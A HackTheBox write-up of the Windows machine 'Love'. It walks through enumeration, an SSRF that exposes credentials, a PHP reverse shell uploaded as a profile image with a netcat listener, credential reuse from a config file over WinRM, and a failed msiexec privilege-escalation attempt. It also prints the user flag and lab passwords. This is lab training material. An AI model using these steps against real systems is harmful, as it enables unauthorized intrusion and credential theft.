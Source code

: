 ```yaml
---
title: "Love"
date: 2025-05-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Love

![](../assets/Pasted%20image%2020250520224654.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.239
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 22:51 CEST
Nmap scan report for 10.10.10.239
Host is up (0.041s latency).
Not shown: 62980 closed tcp ports (reset), 2536 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-05-20T21:16:18+00:00; +21m33s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1909 - 2004
Network Distance: 2 hops
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

`Port` `5000` is a forbidden site.

`Port` `80` is a voting system login form.

![](../assets/Pasted%20image%2020250521122957.png)

Add `love.htb` to `/etc/hosts` and, using `wfuzz`, fuzz subdomains to discover `staging`. This subdomain is already discovered by `nmap` (`ssl-cert: Subject: commonName=staging.love.htb/organizationName=V`).

```shell
$ wfuzz -c --hh 4388 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.love.htb" http://love.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://love.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000067:   200        191 L    404 W      5357 Ch     "staging"                             

Total time: 10.96540
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 454.9763
```

Add `staging.love.htb` to `/etc/hosts` and browse it.

![](../assets/Pasted%20image%2020250521123503.png)

Going to the Demo tab, we find a form with an SSRF vulnerability.
If we enter `port` `5000`, which was forbidden, now we can see some credentials.

![](../assets/Pasted%20image%2020250521123643.png)

Using `feroxbuster`, we find an `/admin` path on `port` `80`.

![](../assets/Pasted%20image%2020250521134910.png)

![](../assets/Pasted%20image%2020250521134925.png)

Using the internal `port` credentials:

![](../assets/Pasted%20image%2020250521135009.png)

![](../assets/Pasted%20image%2020250521135312.png)

## Initial Access

Inside, create a new voter and upload a PHP reverse shell as the user image.

![](../assets/Pasted%20image%2020250521160141.png)

Start a listener and open the picture.

```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.239] 58482
SOCKET: Shell has connected! PID: 4236
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

Get the flag:

```shell
C:\Users\Phoebe\Desktop>type user.txt
8f6bd824be4361a499bbbef404826355
```

## Privilege Escalation

Get SQL connection credentials from the site's config file.

```shell
C:\xampp\htdocs\omrs\includes>type conn.php
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }
?>
```

Checking with `nxc`, these are also valid system credentials.

```shell
$ nxc winrm love.htb -u phoebe -p 'HTB#9826^(_'         
WINRM       10.10.10.239    5985   LOVE             [*] Windows 10 / Server 2019 Build 19041 (name:LOVE) (domain:Love)
WINRM       10.10.10.239    5985   LOVE             [+] Love\phoebe:HTB#9826^(_ (Pwn3d!)
```

![](../assets/Pasted%20image%2020250521162110.png)

![](../assets/Pasted%20image%2020250521164618.png)

Create an MSI reverse shell and execute it like an installer:

```shell
C:\Users\Phoebe\Documents>msiexec /quiet /qn /i reverse.msi
```

But it doesn't work. Checking the `applocker` policy:

```shell
*Evil-WinRM* PS C:\Users\Phoebe\Documents> Get-AppLockerPolicy -Effective | Select -Expandproperty rulecollections
...
PathConditions      : {%OSDRIVE%\Administration\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : e6d62a73-11da-4492-8a56-f620ba7e45d9
Name                : %OSDRIVE%\Administration\*
Description         :
UserOrGroupSid      : S-1-5-21-2955427858-187959437-2037071653-1002
Action              : Allow
```

We can execute it from that folder, but it doesn't work either.

!!! bug

    Following multiple write-ups, I tried from different folders and creating a user instead of getting a reverse shell, but nothing works...
